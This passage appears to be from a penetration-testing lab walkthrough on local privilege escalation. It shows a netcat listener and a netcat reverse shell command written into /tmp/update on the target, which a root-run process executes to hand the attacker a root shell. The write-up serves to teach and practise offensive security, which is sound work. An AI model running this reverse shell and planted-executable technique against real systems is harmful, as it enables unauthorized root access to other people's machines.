 
Local Privilege Escalation
First, start a netcat listener:

kali@kali:~$ nc -lvp 4444
listening on [any] 4444 ...
...
Following the exploit, we will create a file /tmp/update on the target, drop a reverse shell payload into it, give it executable permissions, and then wait for the process to call and execute our payload:

296640a3b825115a47b68fc44501c828@60832e9f188106ec5bcc4eb7709ce592:/tmp$ echo "/usr/bin/nc 192.168.118.3 4444 -e /bin/sh" > update
296640a3b825115a47b68fc44501c828@60832e9f188106ec5bcc4eb7709ce592:/tmp$ /bin/cat update
/usr/bin/nc 192.168.118.3 4444 -e /bin/sh
296640a3b825115a47b68fc44501c828@60832e9f188106ec5bcc4eb7709ce592:/tmp$ /bin/chmod +x update
296640a3b825115a47b68fc44501c828@60832e9f188106ec5bcc4eb7709ce592:/tmp$
After waiting up to a minute, the process executes our payload, and we obtain a root shell:

kali@kali:~$ nc -lvp 4444
listening on [any] 4444 ...
192.168.120.164: inverse host lookup failed: Unknown host
connect to [192.168.118.3] from (UNKNOWN) [192.168.120.164] 56536
python -c 'import pty; pty.spawn("/bin/bash")'
root@60832e9f188106ec5bcc4eb7709ce592:~# whoami
whoami
root
root@60832e9f188106ec5bcc4eb7709ce592:~#